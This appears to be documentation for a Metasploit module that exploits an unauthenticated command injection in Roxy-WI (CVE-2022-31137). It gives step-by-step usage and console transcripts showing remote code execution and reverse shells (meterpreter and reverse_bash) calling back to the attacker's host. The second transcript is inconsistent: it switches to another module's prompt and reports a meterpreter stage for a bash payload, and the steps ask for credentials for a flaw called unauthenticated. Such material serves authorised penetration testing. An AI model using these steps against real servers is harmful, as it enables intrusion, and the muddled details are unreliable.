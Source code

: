 ## Vulnerable Application

### Description

This module exploits command injection vulnerability to achieve remote code execution. Unauthenticated users can execute a terminal command under the context of the web server user

In versions 6.1.1.0 and earlier, an unauthenticated user can execute some methods of administrator fun without needing any credentials. 
Due to the nature of the vulnerability, an adversary can change some part of the webpage, or hijack an administrator account, or execute operating system command under the context of the web-server user.

Technical details about the vulnerability can be found at [here](https://pentest.blog/advisory-roxy-wi-unauthenticated-remote-code-executions-cve-2022-31137/) .

### Setup

Roxy-WI requires Python and a web server to run. Please visit following url to find out required python and other packages.

[https://roxy-wi.org/installation.py](https://roxy-wi.org/installation.py)

```
git clone https://github.com/hap-wi/roxy-wi.git /var/www/haproxy-wi
chmod +x haproxy-wi/app/*.py 
sudo ./haproxy-wi/app/create_db.py
chown -R www-data:www-data haproxy-wi
```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/roxywi_exec`
4. Set `RHOST`
5. Set `LHOST`
6. Set `USERNAME`
7. Set `PASSWORD`
8. Run `exploit`
9. Do: `run`
10. You should get a shell.
11. **Verify** that you are getting `meterpreter` session.


## Targets

### 0

`Python payload`

### 1
`Command payload`

## Scenarios

```
msf6 >
msf6 > use exploit/linux/http/roxywi_exec 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxywi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxywi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxywi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxywi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Checking if 192.168.56.116:443 is vulnerable!
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[+] Exploit successfully executed.
[*] Sending stage (40168 bytes) to 192.168.56.116
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.116:35490) at 2022-07-19 14:13:41 +0300

meterpreter > ls
Listing: /var/www/haproxy-wi/app
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
```

You can also use cmd payloads.

```
msf6 >
msf6 > use exploit/linux/http/roxywi_exec 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxywi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxywi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxywi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(linux/http/mailcleaner_exec) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Checking if 192.168.56.116:443 is vulnerable!
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[+] Exploit successfully executed.
[*] Sending stage (40168 bytes) to 192.168.56.116
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.116:35490) at 2022-07-19 14:13:41 +0300

id
uid=1000(xxx) gid=1000(xxx) groups=1000(xxx)
```